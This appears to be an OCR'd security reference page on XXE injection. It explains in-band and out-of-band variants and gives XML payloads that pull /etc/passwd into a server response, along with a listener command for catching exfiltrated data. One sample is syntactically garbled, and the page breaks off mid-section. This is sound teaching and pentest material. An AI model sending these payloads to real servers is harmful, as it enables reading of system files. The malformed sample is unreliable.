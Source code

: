 ### XXE In-Band
In-band XXE occurs when the attacker can directly view the server's response to a malicious XML payload, enabling 
easy data exfiltration and exploitation. The server processes the payload and returns the extracted data or attack result.

Examples fo reading file content:
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
<name>&xxe;</name>
<email>test@test.com</email>
<message>test</message>
</contact>
```
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
 <foo>
    <example>&xxe;</example>
 </foo>
```
```xml
<?xml version="1.0 standalone="no""?>
<!DOCTYPE copyright [
    <!ELEMENT copyright (#PCDATA)>
    <!ENTITY> copy PUBLIC "http://www.w3.org/xmlspec/copyright.xml">
]>
<copyright&copy; </copyright>
```
Zgodnie ze specyfikacją XML-a w ostatnim przykładzie parser powinien odczytać zawartość pliku z zewnętrzną encją i wstawić
uzyskane dane do dokumentu XML w miejscach odpowie dających tej encji.
Dane hostowane pod adresem http://www.w3.org/xmlspec/copyright.xml powinno się wstawić w dokumencie XML wszędzie tam , gdzie znajduję sie tekst &copy

### Out-of-Band XXE
Out-of-band XXE exploits occur when the attacker cannot see the server's response directly. 
Instead, they use alternative channels like DNS or HTTP requests to exfiltrate data by crafting malicious XML payloads 
that trigger these external requests.

In this case yop have to capture the exfiltrated data using an attacker-controlled server.
Example:

Start a server: `python3 -m http.server 1337`  

Capture the conversation with burp suite:  
